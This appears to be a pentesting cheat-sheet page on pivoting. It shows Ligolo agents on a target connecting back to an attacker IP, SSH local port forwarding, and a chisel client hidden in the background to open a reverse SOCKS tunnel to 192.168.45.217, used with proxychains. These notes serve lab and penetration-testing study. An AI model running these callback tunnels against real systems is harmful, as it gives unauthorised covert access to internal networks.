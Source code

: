 ### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
./win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start
```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu
```

#### Dynamic Remote

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client 192.168.45.217:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic
proxycahins <command> <target_ip>:<target_port>
```


